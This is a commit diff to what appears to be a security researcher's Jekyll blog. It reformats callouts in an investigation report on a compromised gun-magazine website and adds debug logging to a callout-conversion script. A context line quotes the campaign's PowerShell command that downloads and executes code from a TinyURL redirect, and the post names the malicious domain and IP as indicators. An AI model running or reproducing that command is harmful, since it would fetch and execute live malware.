

Before and after one commit to JaseXSec/JaseXSec.github.io, a Jekyll site: the page built from _posts/2025-09-10-gun-digest-website-comprimise-investigation-report.md, in a window 1280 px wide and 900 px high, scrolled down 1372 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
MD Formatting

```diff
--- a/_posts/2025-09-10-gun-digest-website-comprimise-investigation-report.md
+++ b/_posts/2025-09-10-gun-digest-website-comprimise-investigation-report.md
@@ -60,7 +60,15 @@ Invoke-Expression (Invoke-RestMethod 'https://tinyurl.com/mtrcktxm')
 
 That TinyURL redirects to `taurinolands.top`.
 
-> [!warning] Malware Behaviors Detected Falcon also flagged behaviors consistent with malware execution: DNS lookups, HTTP/HTTPS connections, file writes (ZIP, EXE, OLE, PDF), WMI reconnaissance, scheduled task modification attempts, and injection activity. Falcon killed the process before the second stage ran fully.
+<div class="callout callout-warning">
+    <div class="callout-title">
+        <span class="callout-icon"></span>
+        Warning
+    </div>
+    <div class="callout-content">
+        <strong>Malware Behaviors Detected</strong> Falcon also flagged behaviors consistent with malware execution: DNS lookups, HTTP/HTTPS connections, file writes (ZIP, EXE, OLE, PDF), WMI reconnaissance, scheduled task modification attempts, and injection activity. Falcon killed the process before the second stage ran fully.
+    </div>
+</div>
 
 ---
 
@@ -113,7 +121,15 @@ https://taurinolands.top/web/store/articles
 
 That endpoint returned `204 No Content`, consistent with filtering.
 
-> [!info] Domain Registration WHOIS showed `taurinolands.top` was registered Sept 8, 2025, via NameSilo with full privacy. DNS resolved it to `212.11.64.164` (nginx/1.18.0 on Ubuntu).
+<div class="callout callout-info">
+    <div class="callout-title">
+        <span class="callout-icon"></span>
+        Info
+    </div>
+    <div class="callout-content">
+        <strong>Domain Registration</strong> WHOIS showed `taurinolands.top` was registered Sept 8, 2025, via NameSilo with full privacy. DNS resolved it to `212.11.64.164` (nginx/1.18.0 on Ubuntu).
+    </div>
+</div>
 
 ---
 
@@ -232,7 +248,15 @@ graph TD
 
 
 
-> [!success] Conclusion Falcon successfully blocked execution on our host, but this was a real and sophisticated campaign, using a legitimate website as delivery, heavy cloaking, and professional malware families. This security event does not appear to be well know, so please continue with caution.
+<div class="callout callout-success">
+    <div class="callout-title">
+        <span class="callout-icon"></span>
+        Success
+    </div>
+    <div class="callout-content">
+        <strong>Conclusion</strong> Falcon successfully blocked execution on our host, but this was a real and sophisticated campaign, using a legitimate website as delivery, heavy cloaking, and professional malware families. This security event does not appear to be well know, so please continue with caution.
+    </div>
+</div>
 
 ### [Any.Run Report](https://any.run/report/d4c9d9027326271a89ce51fcaf328ed673f17be33469ff979e8ab8dd501e664f/f9336409-d7a5-4a03-a9fc-a70473472afd)
 
--- a/assets/js/main.js
+++ b/assets/js/main.js
@@ -64,17 +64,29 @@ document.addEventListener('DOMContentLoaded', function() {
 
 // Function to convert Obsidian callout syntax to HTML
 function convertCallouts() {
+    console.log('Starting callout conversion...');
+
     const content = document.querySelector('.post-content');
 
     if (!content) {
+        console.log('No post-content found');
         return;
     }
 
+    console.log('Found post-content:', content);
+
     // Process the entire content as HTML
     let html = content.innerHTML;
+    console.log('Original HTML length:', html.length);
+
+    // Look for callout patterns in the HTML
+    const calloutPattern = /&gt; \[!(\w+)\]\s*(.*?)(?=&lt;|$)/g;
+    const matches = html.match(calloutPattern);
+    console.log('Found callout matches:', matches);
 
     // Replace callout syntax with HTML
-    html = html.replace(/^> \[!(\w+)\]\s*(.*?)$/gm, (match, type, title) => {
+    html = html.replace(calloutPattern, (match, type, title) => {
+        console.log('Processing callout:', type, title);
         const calloutType = type.toLowerCase();
         const calloutTitle = title.trim() || calloutType.charAt(0).toUpperCase() + calloutType.slice(1);
 
@@ -87,5 +99,7 @@ function convertCallouts() {
         </div>`;
     });
 
+    console.log('HTML after replacement length:', html.length);
     content.innerHTML = html;
+    console.log('Callout conversion complete');
 }
```
